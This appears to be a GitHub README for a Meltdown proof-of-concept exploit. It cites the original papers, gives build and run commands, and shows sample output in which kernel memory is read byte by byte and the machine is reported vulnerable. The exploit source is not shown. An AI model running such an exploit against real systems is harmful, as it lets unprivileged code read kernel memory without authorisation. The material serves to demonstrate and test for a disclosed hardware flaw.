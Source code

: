 # MELTDOWN EXPLOIT POC

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Lipp et. al 2018 published their code 2018-01-09 at
https://github.com/IAIK/meltdown. Look at their paper for details:
https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`. Works with `sched_yield`.

Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
cached = 30, uncached = 349, threshold 102
read ffffffff8f800060 = 25 % (score=314/1000)
read ffffffff8f800061 = 73 s (score=301/1000)
read ffffffff8f800062 = 20   (score=242/1000)
read ffffffff8f800063 = 76 v (score=338/1000)
read ffffffff8f800064 = 65 e (score=280/1000)
read ffffffff8f800065 = 72 r (score=326/1000)
read ffffffff8f800066 = 73 s (score=388/1000)
read ffffffff8f800067 = 69 i (score=304/1000)
read ffffffff8f800068 = 6f o (score=240/1000)
read ffffffff8f800069 = 6e n (score=301/1000)
read ffffffff8f80006a = 20   (score=295/1000)
read ffffffff8f80006b = 25 % (score=329/1000)
read ffffffff8f80006c = 73 s (score=268/1000)
read ffffffff8f80006d = 20   (score=197/1000)
read ffffffff8f80006e = 28 ( (score=239/1000)
read ffffffff8f80006f = 64 d (score=154/1000)
VULNERABLE
PLEASE POST THIS TO https://github.com/paboldin/meltdown-exploit/issues/19
VULNERABLE ON
4.14.0-kali1-amd64 #1 SMP Debian 4.14.2-1kali1 (2017-12-04) unknown
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 78
model name	: Intel(R) Core(TM) i5-6300U CPU @ 2.40GHz
stepping	: 3
microcode	: 0xba
cpu MHz		: 2500.000
cache size	: 3072 KB
physical id	: 0

```

Post Vulnerable and Invulnerable Machines in Issues
# meltdown-poc
